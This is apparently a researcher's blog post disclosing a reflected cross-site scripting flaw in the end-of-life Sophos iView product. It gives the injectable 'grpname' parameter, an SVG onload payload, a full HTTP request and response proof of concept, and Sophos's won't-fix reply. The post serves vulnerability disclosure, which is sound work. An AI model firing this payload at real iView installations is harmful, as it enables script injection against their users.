 ```yaml
---
layout: post
title:  "Reflected Cross-Site scripting in Sophos iView"
date:   2023-05-03 19:51:02 +0700 
categories: [cve]
---
```


Vendor: Sophos

Product: Sophos iView (The EOL was December 31st 2020)

#### Product description:

Reflected XSS in the privileged user area, where i was able to set parameter 'json->"grpname"'s value to 'ww;</script>/</script/>/<svg/onload=alert('Sophos') width=100//>'

That successfully embedded a script in the response, which was executed when the page loads in the user's browser.

* CVE ID: awaiting
* CWE ID: CWE-79

#### #Proof of Concept

Reflected cross-site scripting (XSS) vulnerability was discovered in the product.

A cross-site scripting vulnerability was identified.

It was possible to inject malicious code, I've successfully embedded a script in the response, which allowed me to execute it when the page loaded in the browser.

The following Proof of Concept (PoC) demonstrates the attack as well as displaying evidence of the script payload being returned in the response. 

#### PoC:
{% highlight ruby %}
POST /iview
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Referer: https://10.0.0.112/webpages/index.jsp?empty=1_1&watermarkmsg=0
Cookie: JSESSIONID=189B80C28A886E98BBD17B7AEFF1B63C
Connection: Keep-Alive
Host: 10.0.0.112
X-Requested-With: XMLHttpRequest
Content-Length: 170
Cache-Control: no-cache
Accept: text/plain, */*; q=0.01
Accept-Language: en-US
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

mode=28&deviceprofile=123&json={"selecteddevices":"1","grpname":"ww;</script>/</script/>/<svg/onload=alert('Sophos') width=100//>","description":"www"}&__RequestType=ajax

HTTP/1.1 200 200
Connection: Keep-Alive
Server: xxxx
Content-Length: 173
X-Frame-Options: SAMEORIGIN
Keep-Alive: timeout=5, max=100
Cache-Control: max-age=2592000
Strict-Transport-Security: max-age=31536000; includeSubDomains
Date: Thu, 09 Jan 2020 14:54:39 GMT
Expires: Sat, 08 Feb 2020 14:54:39 GMT

{"reurl":"managedevicegroup.html?action=71020","message":"Device Group ww;<\/script>/<\/script/>/<svg/onload=alert('Sophos') width=100//> is already exists.","status":"500"}
{% endhighlight %}

![Java Script executed when the page loads in the user's browser](/static/img/sophos-iview.png)

Reply from Sophos via Bugcrowd:

"We are divesting the Sophos iView product, meaning that this particular vulnerability is accepted business risk. I will close this issue as Won't Fix"

#### References:
1. https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://www.firewalls.com/pub/media/wysiwyg/datasheets/Sophos/iView.pdf
3. https://vimeo.com/107872566
4. https://docs.sophos.com/nsg/sophos-iview/v03012/Help/en-us/webhelp/onlinehelp/index.html#page/onlinehelp/AccessDevice.html
